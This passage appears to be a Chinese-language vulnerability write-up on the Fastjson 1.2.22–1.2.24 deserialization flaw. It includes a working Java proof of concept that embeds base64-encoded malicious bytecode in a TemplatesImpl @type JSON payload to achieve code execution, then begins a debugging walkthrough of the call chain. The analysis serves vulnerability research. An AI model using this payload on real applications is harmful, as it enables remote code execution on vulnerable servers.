     public class vulApp1 {

        public static String readClass(String cls){
            ByteArrayOutputStream bos = new ByteArrayOutputStream();
            try {
                IOUtils.copy(new FileInputStream(new File(cls)), bos);
            } catch (IOException e) {
                e.printStackTrace();
            }

            String result = Base64.encodeBase64String(bos.toByteArray());

            return result;
        }

        public static void bad_method() {
            ParserConfig config = new ParserConfig();
            final String fileSeparator = System.getProperty("file.separator");
            String evil_path = "D:\\Java-App\\fastjson-1.2.22\\target\\classes\\ka1n4t\\poc\\evilClass1.class";
            String evil_code = readClass(evil_path);

            final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

            String text1 = "{\"@type\":\"" + NASTY_CLASS +
                    "\",\"_bytecodes\":[\""+evil_code+"\"]," +
                    "'_name':'a.b'," +
                    "'_tfactory':{ }," +
                    "\"_outputProperties\":{ }}\n";
            System.out.println(text1);
            Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);
        }

        public static void main(String args[]) {
            bad_method();
        }

    }

核心部分：

    String text1 = "{\"@type\":\"" + NASTY_CLASS +
                    "\",\"_bytecodes\":[\""+evil_code+"\"]," +
                    "'_name':'a.b'," +
                    "'_tfactory':{ }," +
                    "\"_outputProperties\":{ }}\n";

    Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);

\_bytecodes是经过base64编码的evilClass1的字节码文件，NASTY\_CLASS是TemplatesImpl类。总结一下这个payload，利用JSON.parseObject反序列化TemplatesImpl类，其中\_bytecodes属性是经过base64编码的恶意类字节码文件。

#### 调试分析

下面来分析一下反序列化TemplatesImpl的调用链，首先经过java的反射机制，到达TemplatesImpl类，调用其getOutputProperties()方法：

![](./resource/Fastjson1.2.22-1.2.24反序列化漏洞/media/rId30.png)
